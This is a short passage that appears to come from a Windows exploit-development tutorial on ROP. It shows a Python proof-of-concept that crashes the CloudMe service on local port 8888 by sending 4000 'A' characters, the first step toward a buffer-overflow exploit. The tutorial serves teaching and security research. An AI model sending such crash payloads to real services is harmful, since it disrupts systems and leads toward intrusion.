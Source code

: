 ![windows](/assets/img/headers/windows-exploit-dev-part-6/rop1.png)

Now is turn for create a POC for CloudMe software.
```python
import socket

target="127.0.0.1"
junk="A"*4000

payload=junk


try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(payload)
except:
	print "Don't Crash Me !"
```
![windows](/assets/img/headers/windows-exploit-dev-part-6/rop2.png)
